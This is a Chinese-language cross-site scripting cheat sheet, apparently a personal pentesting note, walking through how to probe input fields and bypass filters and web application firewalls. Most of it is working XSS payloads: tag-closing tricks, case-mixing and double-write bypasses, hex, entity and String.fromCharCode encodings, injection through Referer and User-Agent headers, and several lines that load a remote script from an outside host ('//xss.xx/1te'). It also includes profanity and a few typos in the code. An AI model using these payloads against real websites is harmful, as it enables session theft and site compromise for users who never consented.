 # XSS
> 详细代码请转常用代码篇，有很多代码分析和实例，此篇仅供思路。
靶场：
http://demo.testfire.net/search.jsp?query=1

首先先打个`<a>,<b>`试试看，康康到底能不能输入一个框啊什么的，试试水对吧。在确定了可以在页面加入一个`<b>`或者一个`<a>`然后尝试后者：


就直接尝试xss语句，虽然90%不行，但是万一呢？对吧！

```
<script>alert('xss');</script>
```



## **如果有过滤**

输入：
```
< > ' " = ; 
```
字符查看一下，那些被过滤了，那些被转义了，那些被删除了。


## 首先 构造一个payload

首先一个`xss payload`基本有以下几部分组成

[TAG]填充标签img svg video button...
[ATTR]=Something 填充一些非必要的属性 src=1 xmlns="jp.pornhub.com/"(a君：`兄弟借一步说话`GKDGKD)

[EVENT]填充事件属性onerror onload...
[PAYLOAD]填充JavaScript代码alert(1) top.alert(1)...

大体可以理解为：
```html
<[TAG]    [ATTR]=  sth    [EVENT]   =   [PAYLOAD] />
 标签头    属性     事件   事件属性        代码
```



## **大小写混写，双写绕过**

当一些敏感标签，如`script,img`中间被截断或者删除，可以尝试大小写混写，或者双写绕过:
```
<sCrIpT><>
<Imimgg><>
```




## **尝试闭合标签**

输入没什么过滤，但是无法直接弹窗可以尝试闭合标签然后使xss生效
比如：
```
"> <script>alert(1)</script>
```

## **如何绕过**

### **16进制编码绕过**

将XSS语句经过16进制编码转换来绕过XSS的规则。

列:
```
<script>alert(1)</script>
```
可以转换为
```
%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%22%78%73%73%22%29%3b%3c%2f%73%63%72%69%70%74%3e
```

## **绕过PHP自带的安全设置**

在php中设置为`magic_quotes_gpc=ON`中安全设置开启，开启后会吧一些特殊字符进行转换，比如：`把'(单引号)转化为：`\`,双引号`"`转换为：``\"``

> 我们可以通过javascript中的`String.fromCharCode`方法来绕过

可以输入为：
```
<script>String.fromCharCode(97, 108, 101, 114, 116, 40, 34, 88,83, 83, 34, 41, 59)</script>
```





## **利用html标签属性值执行XSS**

很多HTML标记中的属性都支持JavaScript脚本，所以我反手给你个xss你怎么说？上号：
```
<img src = "http://58.221.227.52:82/functions/images/qysb/logo.png">
```
其中只要执行了js代码就可以弹窗，如果引用文件都可以绕过`<>`





## **使用空格，TAB，回车，js编码绕过**

如果过滤时对`JavaScript`进行了过滤，得益于JS代码的**优秀体制**(**该用谁心理有B数了8**)只需要对js做小小的操作即可绕过：
```
<img src= "java　　script:alert(‘xss‘);" width=100>
```
或者：
```
<img src= "javascript:  alert(/xss/);" width=100>
```

或者：
```
<a herf="javascr&#69pt:alert(1)">



```

## **利用CSS跨站解析**

大概就是去在文章引入的CSS中加入一串XSS代码，应为CSS不用嵌入到html中，可以直接从文件或其他地方进行引用。
`但是 浏览器之间不能通用`
```
<div style = "list-style-image:url(javascript:alert(‘xSS‘))">

<link rel = "stylesheet" href ="http://www.xxx.com/atack.css">

<style type=‘text/css‘>@import url(http://www.xxx.com/xss.css);</style>

<style>@import ‘javascript:alert(‘xss‘);‘</style>
```





## **利用字符编码**

利用16进制转换，或者ASCII表转换来进行xss
```
<script>eval("\61\6c\65......");<script>
```






## **尝试在请求包中输入值查看是否被带入数值**

在请求值中尝试加入referer值

```
Referer: aaaa" type="text" onclick="alert(1)"
```
尝试在User-Agent等值中输入值查看是否能够带入数值

```
user=" type="text" onclick="alert(1)"
```

## **构造payload(采用%0a绕过空格过滤)**

如果过滤了`script、/、与空格`
在url中直接加入`%0a`绕过空格过滤，解析出来不一样吗，火狐他不香吗？
```
http://127.0.0.1/xss/level16.php?keyword=<img%0asrc=1%0aonerror=alert(1)>
```












## **如果过滤了双引号和尖括号**

html`实体编码`来过滤尖括号和双引号也是属于编码绕过的一种，测试只有火狐可以实现(A君：谷歌你🐎死了)
```
http://IP/xss/level17.php?arg01=a&arg02=b onmouseover=alert(1)

```

当在url输入被过滤等因素后，可以尝试在输入框中加入`js代码`并使用js实体绕过:















**js实体编码**

javascrip&#x74;:alert(1) 十六进制
javascrip&#116;:alert(1) 十进制









## [**绕WAF**](https://xz.aliyun.com/t/6652)

当你兴致*勃勃* 输入了第一串代码`<b>`,欸？我日你妈 D盾，创宇盾拦截，百度云盾拦截。小逼崽子**D盾**三天之内祝你**心想事成！** 

> D盾还好，只是拦截，你还可以FUZZ,创宇盾直接给你ip封了，md我搞你还要准备几十个ip？

不常见标签

XSSfuzz生成器:https://github.com/NytroRST/XSSFuzzer/blob/master/fuzzer.html

```html
<details> <button> <select> <keygen> <textarea>等等
```

从网上收集的几个payload:
```html

<details open ontoggle=prompt(1)>
      <details open ontoggle=prompt(1)>
      <button onfocus=prompt(1) autofocus>
      <select autofocus onfocus=prompt(1)>

 <input autofocus onfocus=s=createElement("scriPt");body . appendChild(s);s.src="//xss.xx/1te">

 <keygen autofocus onfocus =s=createElement("scriPt" );body . appendchild(s);s. src="//xss.xx/1te">

<textarea autofocus onfocus=s=createElement("scriPt"); bady appendChild(s);s.src="//xss.xx/1te">

<video onkeyup=setTimeout`al\x65rt\x28/2/\x29```>

<svg src=1 onload=alert(1) />
<svg value=1 onload=alert(1) />
<video value=1 onerror=alert(1) />

```



绕 alert

```html
top[11189117..toString(32)](1);
</sCrIpT><svg  onwheel=top[11189117..toString(32)](1);>
```

¼script¾alert(¢XSS¢)¼/script¾
¼b¾1